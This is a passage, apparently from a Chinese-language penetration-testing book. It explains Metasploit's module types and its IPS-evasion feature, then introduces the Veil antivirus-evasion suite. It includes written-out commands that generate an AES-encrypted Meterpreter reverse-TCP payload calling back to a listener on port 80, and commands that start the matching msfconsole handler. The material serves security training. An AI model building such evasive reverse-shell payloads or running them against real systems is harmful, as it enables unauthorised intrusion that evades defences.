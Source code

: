 请记住，Metasploit Pro 中的 IPS 绕过工具内置了许多不同的规避方法。其中一个特点是利用代码的结构每次略有不同。因此，如果 IPS 绕过一次失败，可能在同一台主机上再次运行时成功。这并不意味着如果您运行了 10 次，前九次失败了，第十次就一定会成功。因此，请注意并学习与`psexec`和系统利用相关的错误消息。

如果需要的话，可以从 Metasploit 运行整个评估；虽然不建议这样做，但工具确实有这个能力。Metasploit 是模块化的；事实上，Metasploit 中的组件被称为模块。模块分为以下几类：

+   辅助模块

+   利用模块

+   后置模块

+   有效载荷模块

+   NOP 模块

+   编码器模块

辅助模块包括扫描器、暴力破解器、漏洞评估工具和服务器模拟器。利用模块就是可以运行以利用接口服务或其他解决方案的工具。后置模块旨在提升权限、提取数据或与系统上的当前用户交互。有效载荷提供了一种封装的交付工具，一旦获得对系统的访问权限就可以使用。当配置利用模块时，通常需要配置有效载荷模块，以便返回一个 shell。

**无操作**（**NOP**）模块生成对特定硬件架构无效的操作。在创建或修改利用时，这些模块非常有用。Metasploit 中的最后一种模块类型是编码器模块。对编码器的用途存在着巨大的误解。事实上，它们用于通过改变有效载荷的结构来使有效载荷的执行更加可靠，以去除某些类型的字符。这会重新格式化原始有效载荷的操作码，并使有效载荷变得更大，有时甚至更大。

偶尔，负载结构的变化意味着它将绕过严格依赖特定签名的 IPS。这导致许多评估者认为编码是为了绕过防病毒软件；这只是编码的副产品，而不是意图。今天，编码很少绕过企业级 IPS 解决方案。像 Veil 这样的其他产品为这个困境提供了更合适的解决方案。由于大多数利用可以引用外部负载，最好寻求像 Veil 这样的外部解决方案，即使你使用的是 Metasploit 的专业版。在某些情况下，Metasploit Pro 的 IPS 绕过能力将无法使用；在这种情况下，可能需要其他工具。Metasploit 将在本书的其他章节中详细介绍。

## Veil

这个防病毒软件逃避套件有多种方法来生成负载。这些负载类型利用了有经验的评估者和恶意行为者多年来手动使用的方法。这包括使用**高级加密标准**（**AES**）加密负载，对它们进行编码，并随机化变量名称。然后可以将这些细节包装在 PowerShell 或 Python 脚本中，以使生活更加轻松。

Veil 可以通过**命令行界面**（**CLI**）或类似于 Metasploit 的控制台启动。例如，以下命令显示了创建一个 PyInjector 利用的 CLI 的用法，它拨打回监听主机的 80 端口；如果你想测试这个，确保你用你的实际 IP 替换"yourIP"。

```py
./Veil.py -l python -p AESVirtualAlloc -o \
python_payload --msfpayload \
windows/Meterpreter/reverse_tcp --msfoptions \
LHOST=yourIP LPORT=80

```

现在，继续启动你的 Metasploit 控制台，并使用以下命令启动监听器。这将启动控制台；确保等待它启动。此外，它在你的主机上设置了一个监听器，所以确保你用你的实际 IP 地址替换"yourIP"。监听器将在后台运行，等待返回的会话。

```py
msfconsole
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set lport 80
set lhost yourIP
exploit -j

```

将负载移动到目标 Windows 系统并运行负载。只要没有配置问题，监听主机的端口 80 上没有其他服务运行，并且没有阻止被利用主机和监听器之间连接到端口 80 的任何东西，你应该会在你的 Kali 主机上看到一个会话生成。
